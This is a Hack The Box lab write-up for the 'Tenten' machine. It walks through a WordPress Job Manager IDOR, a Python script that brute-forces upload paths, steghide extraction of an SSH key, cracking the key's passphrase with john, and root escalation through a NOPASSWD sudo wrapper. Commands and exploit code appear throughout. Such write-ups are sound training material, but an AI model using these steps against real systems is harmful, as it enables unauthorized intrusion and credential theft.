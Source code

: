 ```yaml
---
clayout: ctf
title: Tenten
date: 2025-09-16
image: /ctf/hack-the-box/machines/tenten/info-card.png
type: Hack The Box

ctf:
    - name: Tenten
      link: https://app.hackthebox.com/machines/8
      thumbnail: /ctf/hack-the-box/machines/tenten/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/8
          thumbnail: /ctf/hack-the-box/machines/tenten/pwned.png
---
```


## Machine Overview

A WordPress instance (tenten.htb) runs the Job Manager plugin (≤ 0.7.25), which is vulnerable to an IDOR and allows discovery of an uploaded CV image containing a private SSH key embedded via steganography. The private key is encrypted; its passphrase is recovered with `john` and used to SSH as `takis`. A misconfigured sudo entry for `/bin/fuckin` allows immediate root escalation.

## Enumeration

### Nmap

We started with a standard service scan to discover open services and versions:

```bash
nmap -sC -sV -Pn -oN nmap.txt 10.10.10.10
```

**Scan results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://tenten.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

## Web Enumeration

### Hostname

Port 80 redirected to the virtual host `tenten.htb`. Added an `/etc/hosts` entry:

```bash
echo "10.10.10.10 tenten.htb" | sudo tee -a /etc/hosts
```

### Web Application Inspection

Visiting `http://tenten.htb/` shows a WordPress site with one post (user `takis`) and a job listing.

![Tenten Home Page](/ctf/hack-the-box/machines/tenten/home.png)

### WordPress plugin scan

Using `wpscan` revealed an instance of Job Manager with a known vulnerability:

```bash
wpscan --url http://tenten.htb --api-token <API_TOKEN>
```

```bash
 | [!] Title: Job Manager <= 0.7.25 -  Insecure Direct Object Reference (IDOR)
 |     References:
 |      - https://wpscan.com/vulnerability/9fd14f37-8c45-46f9-bcb6-8613d754dd1c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6668
 |      - https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/
```

## Exploitation: IDOR → Find uploaded CV

### Manual verification

Job application pages use numeric job IDs in the URL pattern:

```url
http://tenten.htb/index.php/jobs/apply/8/
```

Changing the ID to another value (e.g., `13`) reveals additional job entries (the `HackerAccessGranted` job), confirming the IDOR.

### Finding the uploaded file

The Job Manager upload naming leaks allow brute-forcing upload paths (uploads are typically stored under `wp-content/uploads/YYYY/MM/filename.ext`). We use this [gist](https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef) to search likely upload paths for `HackerAccessGranted` with common image extensions:

```python
# exploit.py
import requests
website = raw_input('Enter a vulnerable website: ')
filename = raw_input('Enter a file name:')
filename2 = filename.replace(" ", "-")
for year in range(2017,2019):
    for i in range(1,13):
        for extension in {'jpeg','png','jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

Run:

```bash
python2 exploit.py
Enter a vulnerable website: http://tenten.htb
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

We've found the CV image.

![Tenten HackerAccessGranted](/ctf/hack-the-box/machines/tenten/hacker-access-granted.png)

## Extract private key from image

### Steganography extraction

Using `steghide`, we can extract the embedded data:

```bash
steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: # enter empty passphrase
wrote extracted data to "id_rsa".
```

We've recovered a private SSH key.

## John the Ripper

We can use John the Ripper to crack the passphrase. Before that, we need to convert the private key into a crackable hash format.

### Convert private key to hash

Using `ssh2john.py`, we can convert the private key into a hash.

```bash
python3 ssh2john.py id_rsa > id_rsa.hash
```

We can now use John the Ripper to crack the passphrase.

### Run John

Using the `rockyou` wordlist, we can crack the passphrase.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

**Result:**

```bash
superpassword    (id_rsa)
```

## Initial access

With the extracted key and recovered passphrase:

```bash
ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': # enter superpassword
```

On successful login, we can see that we're now logged in as `takis`.

```bash
takis@tenten:~$ id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),27(sudo),...
```

> [!IMPORTANT] User flag
> `/home/takis/user.txt`

## Privilege escalation (takis → root)

### Sudo rights

```bash
sudo -l
```

**Output:**

```bash
User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

Looking at the output, we can see that `/bin/fuckin` is listed as a NOPASSWD program.

### Inspect `/bin/fuckin`

The content of the script is:

```bash
cat /bin/fuckin
# #!/bin/bash
# $1 $2 $3 $4
```

This script simply executes its first argument as a command (with up to 3 args). Because it is allowed via sudo without a password, it allows arbitrary command execution as root:

```bash
sudo /bin/fuckin sudo su
# becomes a root shell
root@tenten:/home/takis# id
uid=0(root) gid=0(root) groups=0(root)
```

> [!IMPORTANT] Root flag
> `/root/root.txt`
